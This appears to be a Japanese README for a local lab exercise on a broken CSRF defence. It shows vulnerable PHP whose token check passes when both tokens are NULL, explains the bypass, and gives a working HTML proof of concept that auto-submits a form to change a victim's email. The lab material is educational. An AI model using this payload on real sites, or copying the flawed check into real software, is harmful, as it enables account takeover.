 # 問題：間違ったCSRF対策～初級編～
https://blog.tokumaru.org/2018/11/csrf.html

## Run
```
$: make up
$: open http://poc.local.xss.moe
```

## 解説
問題のあるコードは`chgmail.php`。

```php
<?php // chgmail.php メールアドレス変更実行
  session_start();
  if (empty($_SESSION['id'])) {
    die('ログインしてください');
  }
  $id = $_SESSION['id']; // ユーザIDの取り出し
  if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
    die('正規の画面からご使用ください');
  }
  unset($_SESSION['token']); // 使用済みトークンの削除
  $mail = $_POST['mail'];
  $_SESSION['mail'] = $mail;
?>
<body>
<?php echo htmlspecialchars($id, ENT_COMPAT, 'UTF-8'); ?>さんのメールアドレスを<?php
 echo htmlspecialchars($mail, ENT_COMPAT, 'UTF-8'); ?>に変更しました<br>
<a href="mypage.php">マイページ</a>
</body>
```

うち、問題のある箇所は以下の部分。

```php
if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
  die('正規の画面からご使用ください');
}
```

- `$_SESSION['token']`の存在確認を行っていないため、`chgmailform.php`にアクセスしていない状態のログイン済ユーザが`chgmail.php`にアクセスする際、`$_SESSION['token']`の値は`NULL`となる。
- コード中で`$_POST['token']`との比較によってCSRF対策をおこなっているように見えるが、上記の条件を満たす場合は`$_POST['token']`を送信せずにCSRFを行えば`NULL`同士の比較となりチェックをバイパスできる。

## PoC
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>PoC</title>
</head>
<body>
  <iframe id="frame" src="//chall.local.xss.moe/mypage.php" style="display:none"></iframe>
  <form id="form" method="POST" action="//chall.local.xss.moe/chgmail.php">
    <input type="hidden" name="mail" value="pwned@example.jp">
  </form>
  <script>
    let frame = document.getElementById('frame');

    frame.addEventListener('load', (e) => {
      let form = document.getElementById('form');
      form.submit();
    });
  </script>
</body>
</html>
```

※便宜上iframe経由で`mypage.php`を読み込ませているが実際の攻撃では必ずしも必要ではない。
